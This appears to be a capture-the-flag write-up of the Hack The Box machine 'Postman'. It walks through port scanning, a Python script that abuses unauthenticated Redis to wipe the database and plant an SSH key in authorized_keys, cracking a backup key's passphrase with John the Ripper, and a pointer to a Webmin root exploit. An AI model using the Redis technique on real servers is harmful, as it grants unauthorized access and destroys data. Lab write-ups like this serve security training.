

## Recon
#### Masscan
```
$ sudo masscan -p1-65535 10.10.10.160 --rate 1000 ---open --banners -e tun0

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-11-05 21:48:57 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.10.10.160                                    
Discovered open port 22/tcp on 10.10.10.160                                    
Discovered open port 6379/tcp on 10.10.10.160                                  
Discovered open port 10000/tcp on 10.10.10.160
```

#### NMAP on open ports
```
$ nmap -sC -sV -oN postman.nmap -p 80,22,6379,10000 10.10.10.160
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-05 16:53 EST
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.81% done; ETC: 16:53 (0:00:00 remaining)
Nmap scan report for postman.htb (10.10.10.160)
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I found a remote command execution exploit for `redis 4.0.9`
https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

Generate key pair and executed python code to write my public key to authorized_keys
```python
import os
os.system("redis-cli -h 10.10.10.160 flushall")
os.system("(echo '\r\n\'; cat pub.txt; echo \'\r\n\') > pub_1.txt")
os.system("cat pub_1.txt | redis-cli -h 10.10.10.160 -x set cracklist")
os.system('redis-cli -h 10.10.10.160 config set dbfilename "backup.db"')
os.system('redis-cli -h 10.10.10.160 config set dir "/var/lib/redis/.ssh/"')
os.system('redis-cli -h 10.10.10.160 config set dbfilename "authorized_keys"')
os.system('redis-cli -h 10.10.10.160 save')
```


I found `id_rsa.bak` file mentioned in commmand in user's `.bash_history`. Cracking the password using JohnTheRipper we get password for key.
```
$ ssh2john id_rsa > matt_hash
```


I was not able to ssh into box using key and password. But was able to do `su Matt` and login as Matt from existing connection.

I can also login to `webmin` portal at https://postman.htb:10000. I was also able to find exploit for webmin [CVE-2019-12840](https://www.exploit-db.com/exploits/46984)

#### Executing the exploit using metasploit to get root shell.



